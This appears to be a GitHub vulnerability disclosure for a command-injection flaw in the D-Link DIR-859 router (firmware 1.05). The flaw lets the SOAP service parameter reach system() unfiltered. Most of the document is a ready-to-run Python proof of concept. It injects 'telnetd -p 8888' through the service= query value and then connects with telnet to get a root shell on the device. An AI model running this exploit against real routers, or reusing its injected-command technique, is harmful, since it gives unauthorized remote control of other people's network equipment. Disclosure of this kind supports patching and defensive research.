 ## D-Link DIR-859 Command Execution Vulnerability

**Vender**: D-Link

**Firmware version**: DIR 859A1 1.05

**Exploit Author**: Insight

**Vendor Homepage**: [http](http://www.dlink.com.cn/): [//www.dlink.com.cn/](http://www.dlink.com.cn/)

## Detailed description

This vulnerability exists in the soapcgi_main function of the cgibin program. v11 is the content behind the request_uri environment variable service=, which has been filtered, but the filtering is not rigorous.

![img](dir859.assets/clip_image001.png)

Format v11 to byte_434EF0, and execute system, resulting in command execution.

![img](dir859.assets/clip_image002.jpg)

## POC

```python
from socket import *
from os import *
from time import *
 
request = b"POST /soap.cgi?service=&&telnetd -p 8888&& HTTP/1.1\r\n"
request += b"Host: localhost:49152\r\n"
request += b"Content-Type: text/xml\r\n"
request += b"Content-Length: 88\r\n"
request += b"SOAPAction: a#b\r\n\r\n"
 
s = socket(AF_INET, SOCK_STREAM)
s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(request)
 
sleep(1)
system('telnet 192.168.0.1 8888')
```

![image-20221129175902361](dir859.assets/image-20221129175902361.png)
